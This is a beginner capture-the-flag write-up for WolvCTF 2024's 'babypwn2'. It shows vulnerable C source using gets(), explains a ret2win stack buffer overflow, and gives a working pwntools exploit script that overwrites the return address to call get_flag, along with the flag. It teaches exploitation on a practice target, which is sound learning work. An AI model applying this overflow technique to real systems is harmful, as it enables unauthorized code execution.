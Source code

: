```yaml
---
layout: writeup
category: Wolv-CTF-2024
chall_description:
points: 50
solves: 182
tags: beginner pwn buffer-overflow ret2win gets
date: 2024-3-19
comments: false
---
```


A harder babypwn.  

`nc babypwn2.wolvctf.io 1337 `  

[babypwn2](https://github.com/Nightxade/ctf-writeups/blob/master/assets/CTFs/Wolv-CTF-2024/beginner/babypwn2)  
[babypwn2.c](https://github.com/Nightxade/ctf-writeups/blob/master/assets/CTFs/Wolv-CTF-2024/beginner/babypwn2.c)  

---

We're provided a binary ELF and a C source file. Here's the source:  

```c
#include <stdio.h>
#include <unistd.h>

/* ignore this function */
void ignore()
{
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);
}

void get_flag() 
{
    char *args[] = {"/bin/cat", "flag.txt", NULL};
    execve(args[0], args, NULL);
}

int main() 
{
    ignore();
    char buf[0x20];
    printf("What's your name?\n>> ");
    gets(buf);
    printf("Hi %s!\n", buf);
    return 0;
}
```

Basically, the vulnerability here lies in the call to the `gets()` function in main().  gets() is well-known to be vulnerable, as it places no protections on buffer overflow/sending in too many bytes as input.  

Essentially, this is a classic ret2win challenge. For those of you unaware what this means, ret2win entails overriding the RIP, i.e. the return pointer. Basicaly, the RIP is located on the stack, and, at the end of main(), when the proram hits a `return` statement, the program will return to the location specified by RIP. However, because the RIP is located on the stack, attackers can override this value. We want to override the RIP with the return address of get_flag() so the program returns to get_flag() instead!  

To do this, we can easily use pwntools. I recommend beginners who solve these challenges without pwntools to try and switch to pwntools because it is much easier!  

```py
from pwn import *
import pwnlib.util.packing as pack

elf = ELF("./babypwn2")
context.binary = elf
context.log_level = "DEBUG"
context(terminal=["tmux","split-window", "-h"])

# p = process('./babypwn2')
# gdb.attach(p)

p = remote('babypwn2.wolvctf.io', 1337)

### IGNORE EVERYTHING ABOVE

# FIND RIP offset
# p.sendlineafter(b'>> ', cyclic(1024))

winaddr = elf.symbols['get_flag']
offset = cyclic_find('kaaalaaa')

p.sendlineafter(b'>> ', b'A'*offset + pack.p64(winaddr))

p.interactive()
```

First, we can find the offset of the RIP on the stack comapred to where the input is. We can do this by sending a cyclic of length 1024 (arbitrarily large). I'll skip over the fine details, but, essentially, you can think of the cyclic() function generates a sequence of characters such that every group of 4 characters will be unique. When the program inveitably throws a segmentation fault, once the RIP is overriden and it can't find the corresponding function since it is a random address, we can find the 8 characters it attempted to return to by checking the bytes at RSP, the stack pointer (points to the top of the stack). (Note that it is 8 instead of 4 because this is a 64-bit ELF, instead of a 32-bit ELF).  

If you're using standard GDB, we can do this by the command `x/qx $rsp`. I'm personally using pwndbg (and I would recommend you do so too!), which allows me to see all registers everytime the program stops.  

With pwndbg, we can clearly see that it's `kaaalaaa` (or by decoding from hex to ASCII from what you read in standard GDB). Now that we know this, we can use pwntools's `cyclic_find()` function to find the offset of this string in the generated cycle.  

Once we do that, we can simply find the address of the get_flag() function as seen above, then send some garbage bytes to fill the bytes in between the input and the RIP, and then send the packed value of the win address (because little-endianness requires us to send the reverse of the bytes).  

That's it. Running the program will now get you the flag!  

    wctf{Wo4h_l0ok_4t_y0u_h4ck1ng_m3}

### Sidenote
It is usually also standard to run `checksec` on the ELF, but I left it out since this is a writeup intended for beginners. This is a very useful tool for pwners, so if you're a beginner, I would recommend downloading it!  